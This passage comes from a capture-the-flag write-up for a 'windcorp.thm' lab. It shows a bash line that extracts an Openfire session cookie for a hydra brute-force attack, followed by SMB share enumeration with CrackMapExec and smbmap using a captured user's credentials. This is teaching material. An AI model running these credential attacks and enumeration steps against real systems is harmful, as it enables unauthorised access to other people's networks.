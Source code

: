 ```bash
# Extract SESSIONID:
SESSIONID=$(grep JSESSIONID openfire.cookie | awk -F ' ' '{ print $7 }')
```

Now we can start our bruteforce attack using `hydra` and feed it the two variables saved above.

## Enumerating Samba (port: 445)

When dealing with `samba`, my go-to tools would be the following:

- `smbclient` (built-in, check [manpage](https://man.cx/smbclient))
- `smbmap` (https://github.com/ShawnDEvans/smbmap)
- `cme` (https://github.com/byt3bl33d3r/CrackMapExec)

Let's first try to see if `lilyle` has any kind of access to SMB:

```
$ /opt/cme smb fire.windcorp.thm -u 'lilyle' -p 'REDACTED'
SMB         10.10.63.172    445    FIRE             [*] Windows 10.0 Build 17763 x64 (name:FIRE) (domain:windcorp.thm) (signing:True) (SMBv1:False)
SMB         10.10.63.172    445    FIRE             [+] windcorp.thm\lilyle:REDACTED 
```

The authentication attempt succeeds ! We can now try to enumerate all shares for that domain:

```
$ /opt/cme smb fire.windcorp.thm -u 'lilyle' -p 'REDACTED' --shares
SMB         10.10.63.172    445    FIRE             [*] Windows 10.0 Build 17763 x64 (name:FIRE) (domain:windcorp.thm) (signing:True) (SMBv1:False)
SMB         10.10.63.172    445    FIRE             [+] windcorp.thm\lilyle:REDACTED 
SMB         10.10.63.172    445    FIRE             [+] Enumerated shares
SMB         10.10.63.172    445    FIRE             Share           Permissions     Remark
SMB         10.10.63.172    445    FIRE             -----           -----------     ------
SMB         10.10.63.172    445    FIRE             ADMIN$                          Remote Admin
SMB         10.10.63.172    445    FIRE             C$                              Default share
SMB         10.10.63.172    445    FIRE             IPC$            READ            Remote IPC
SMB         10.10.63.172    445    FIRE             NETLOGON        READ            Logon server share 
SMB         10.10.63.172    445    FIRE             Shared          READ            
SMB         10.10.63.172    445    FIRE             SYSVOL          READ            Logon server share 
SMB         10.10.63.172    445    FIRE             Users           READ 
```

If we want to do this recursively we use the recursive flag in `smbmap`:

```
$ smbmap -u lilyle -p REDACTED -R -H fire.windcorp.thm
(...)
Shared                                                  READ ONLY
        .\Shared\*
        dr--r--r--                0 Sat May 30 02:45:42 2020    .
        dr--r--r--                0 Sat May 30 02:45:42 2020    ..
        fr--r--r--               45 Fri May  1 17:32:36 2020    Flag 1.txt
        fr--r--r--         29526628 Sat May 30 02:45:01 2020    spark_2_8_3.deb
        fr--r--r--         99555201 Sun May  3 13:08:39 2020    spark_2_8_3.dmg
        fr--r--r--         78765568 Sun May  3 13:08:39 2020    spark_2_8_3.exe
        fr--r--r--        123216290 Sun May  3 13:08:39 2020    spark_2_8_3.tar.gz
```
